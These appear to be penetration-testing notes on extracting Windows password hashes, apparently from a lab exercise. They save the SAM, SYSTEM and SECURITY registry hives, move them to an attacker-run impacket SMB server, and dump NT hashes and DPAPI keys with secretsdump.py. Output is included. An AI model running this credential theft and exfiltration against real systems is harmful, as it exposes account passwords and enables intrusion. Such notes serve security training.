 ```yaml
---
description: SAM - sam.save - system.save - Hashes - secretsdump.py - passwords
---
```


# Hashes from .vhd

Coming across or finding a .vhd or Virtual Hard Disk file its also possible to find the registry files, these files are locked on a running system but not when its mounted.

Mount an SMB share

```bash
$ mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
$ ls /mnt/
note.txt  SDT65CB.tmp  WindowsImageBackup

# Mounting the .vhd
guestmount --add /mnt/remote/path/to/vhdfile.vhd --inspector --ro /mnt/vhd -v
```

On windows you can use computer management and add it at "more actions".

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

### SAM

Security account manager or SAM is a database wich stores the hashes for users on the windows system. We can extract hashes from it and crack them.

| Hive        | File                              |
| ----------- | --------------------------------- |
| hklm\sam    | C:\WIndows\System32\config\SAM    |
| hklm\system | C:\Windows\System32\config\SYSTEM |

```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
The operation completed successfully.
```

Or using windows explorer go /windows/system32/config and copy the files.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Setup SMB server to copy files

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support Zendata /home/mczen/Documents/
```

Copy the files

```
C:\> move sam.save \\10.10.15.16\Zendata
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\Zendata
        1 file(s) moved.
```

### <mark style="color:yellow;">Extract hashes with secretsdump.py</mark>

```
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
```
